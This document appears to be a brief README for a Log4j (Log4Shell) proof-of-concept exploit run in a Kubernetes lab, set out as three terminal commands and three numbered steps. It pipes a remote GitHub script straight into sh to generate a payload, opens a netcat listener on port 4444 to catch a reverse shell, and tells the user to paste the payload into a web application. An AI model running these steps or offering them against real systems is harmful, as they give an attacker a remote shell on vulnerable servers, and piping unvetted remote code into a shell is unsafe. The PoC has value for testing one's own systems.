 # log4j-poc in kubernetes environment

Terminal 1:
- `apt-get update && apt-get install -y wget;wget -q -O - https://raw.githubusercontent.com/nandakrr/log4j-poc/main/run.sh | sh`

Terminal 2:
- `kubectl exec -it nc-pod -- nc -lvnp 4444`

Terminal 3:
- `kubectl get all | grep java-ms-svc | awk '{print $4}'`

1. Copy&paste the output of terminal 3 in the browser.
2. Copy&paste the payload generated by terminal 1 in the web-application.
3. Now check the terminal 2, you may get the reverse shell if application is vulnerable to log4j
